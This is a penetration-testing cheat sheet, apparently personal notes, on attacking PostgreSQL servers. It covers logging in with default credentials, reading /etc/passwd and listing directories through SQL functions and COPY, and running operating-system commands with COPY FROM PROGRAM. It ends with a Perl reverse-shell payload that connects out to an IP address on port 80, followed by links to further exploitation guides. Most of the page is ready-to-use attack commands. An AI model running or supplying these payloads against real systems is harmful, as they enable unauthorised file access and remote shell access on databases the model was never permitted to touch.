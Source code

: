 # PostgreSQL
--------

```bash
psql -h 10.10.10.10 -u username -p 57756
```

Check for default credentials like `postgres:postgres`

Once, authenticated; 
```bash
# listing directories
SELECT pg_ls_dir('/etc');

# read file
SELECT pg_read_file('/etc/passwd', 0, 200);
#2
DROP TABLE pwn;
CREATE TABLE pwn(t TEXT);
COPY pwn FROM '/etc/passwd';
SELECT * FROM pwn;
```

https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md


Command Execution 
https://github.com/nixawk/pentest-wiki/blob/master/2.Vulnerability-Assessment/Database-Assessment/postgresql/postgresql_hacking.md

```bash
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec; #cleanup
```
Ensure that the single qoutes are converted into double quotes for the payload.
```bash
COPY cmd_exec FROM PROGRAM 'perl -MIO -e ''$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.49.70:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;''';''
```

Other links:
https://infosecwriteups.com/compiling-postgres-library-for-exploiting-udf-to-rce-d8cfd197bdf9
https://www.dionach.com/blog/postgresql-9-x-remote-command-execution/
https://github.com/dionach/pgexec/blob/master/pg_exec.sh
